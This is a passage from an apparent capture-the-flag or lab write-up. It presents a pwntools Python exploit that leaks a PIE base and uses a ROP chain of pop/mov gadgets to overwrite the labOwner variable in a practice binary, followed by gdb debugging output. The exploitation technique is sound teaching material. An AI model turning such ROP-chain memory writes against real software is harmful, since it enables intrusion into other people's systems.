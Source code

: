 # Writing an exploit
Let the fun begin.
So we know what gadgets we can use to write to `labOwner` and we have the offset of `labOwner`.
We can make the following script to make a write to `labOwner`:
```python
from pwn import *

checkLabOwner_offset = 0x121c
main_offset = 0x12d4
pop_offset = 0x1402 # pop edi; pop ebp; ret;
mov_offset = 0x1216 #mov dword ptr [edi],ebp; ret;
labOwner_offset = 0x4040
lab_offset = 0x1338
padding = cyclic(76)


# start the process
p = process('./lab')

# get the address of main and calculate the bass
p.recvuntil('Main is at ')
main = int(p.recv(10),16) #0xdeadbeef
log.info('Main is at: {}'.format(hex(main)))
base = main - main_offset
log.success('PIE base: {}'.format(hex(base)))

# calculate all addresses we need
checkLabOwner = p32(base + checkLabOwner_offset)
pop = p32(base + pop_offset)
mov = p32(base + mov_offset)
labOwner = base + labOwner_offset
lab = p32(base + lab_offset)

def write(proc, write_loc, payload, return_addr):
    proc.recvuntil(': ')
    ropchain = padding
    ropchain += pop
    ropchain += p32(write_loc)
    ropchain += payload
    ropchain += mov
    ropchain += return_addr
    proc.sendline(ropchain)

raw_input() #pause script to attach gdb to the process
write(p, labOwner, 'QHpi', lab)
write(p, labOwner+0x4, 'x\x00\x00\x00', checkLabOwner)
p.interactive()
p.close()
```
Now let's run the script and attach `gdb` to the process:
```
gdb-peda$ b *checkLabOwner+119
Breakpoint 1 at 0x565e9293
gdb-peda$ c
Continuing.
[===snip===]
[-------------------------------------code-------------------------------------]
   0x565e928b <checkLabOwner+111>:      push   eax
   0x565e928c <checkLabOwner+112>:      lea    eax,[ebx+0x40]
   0x565e9292 <checkLabOwner+118>:      push   eax
=> 0x565e9293 <checkLabOwner+119>:      call   0x565e90b0 <strncmp@plt>
   0x565e9298 <checkLabOwner+124>:      add    esp,0x10
   0x565e929b <checkLabOwner+127>:      test   eax,eax
```